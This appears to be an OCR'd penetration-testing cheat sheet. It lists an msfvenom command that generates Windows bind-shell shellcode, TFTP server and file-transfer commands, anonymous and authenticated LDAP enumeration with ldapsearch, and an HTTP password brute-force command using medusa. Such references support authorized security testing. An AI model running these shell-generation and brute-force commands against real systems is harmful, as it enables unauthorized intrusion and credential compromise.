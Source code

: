 [+] Metasploit Shellcode
msfvenom -p windows/shell_bind_tcp -b '\x00\x0a\x0d'

__File Transfer Services__

[+] Start TFTPD Server
atftpd --daemon --port 69 /tmp

[+] Connect to TFTP Server
tftp 192.168.0.10
put / get files

__LDAP Querying__

Tools:
ldapsearch
LDAPExplorertool2

Anonymous Bind:
ldapsearch -h ldaphostname -p 389 -x -b "dc=domain,dc=com"

Authenticated:
ldapsearch -h 192.168.0.60 -p 389 -x -D "CN=Administrator, CN=User, DC=<domain>, DC=com" -b "DC=<domain>, DC=com" -W

Useful Links:
http://www.lanmaster53.com/2013/05/public-facing-ldap-enumeration/
http://blogs.splunk.com/2009/07/30/ldapsearch-is-your-friend/


__Password Attacks__

[+] Bruteforcing http password prompts
medusa -h <ip/host> -u <user> -P <password list> -M http -n <port> -m DIR:/<directory> -T 30
